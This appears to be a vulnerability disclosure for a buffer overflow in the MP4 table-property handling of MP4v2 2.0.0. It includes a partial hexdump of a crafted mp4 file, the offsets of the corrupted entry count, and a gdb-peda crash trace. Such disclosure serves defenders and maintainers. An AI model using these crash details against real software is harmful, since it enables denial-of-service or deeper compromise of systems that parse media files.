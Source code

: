 
MP4v2_BOF

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles

Entry Number validation for the MP4 Table Property, which allows remote attackers to cause a denial of service 

(overflow, insufficient memory allocation, and segmentation fault) 

or possibly have unspecified other impact via a crafted mp4 file.




MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. 

It causes Memory crash and Denial-Of-Service.




 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
 
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|





 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error

 
 
 
 gdb-peda$ r ../wim.mp4
 
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 
 /home/wim/.libs/lt-mp4info version 2.0.0
 
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.
 
 
 

registers

 EAX: 0x80695c0 --> 0x0
 
 EBX: 0xb7fd5000 --> 0x171e40
 
 ECX: 0x0
 
 EDX: 0x0
 
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
 

code
    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
    
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
 
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1
    
    
    
Guessed arguments:

 arg[0]: 0x80695c0 --> 0x0



stack

 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 
 0008| 0xbfffe898 --> 0xffffffff
 
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)




Legend: code, data, rodata, value

 Stopped reason: SIGSEGV
 
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
 
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i
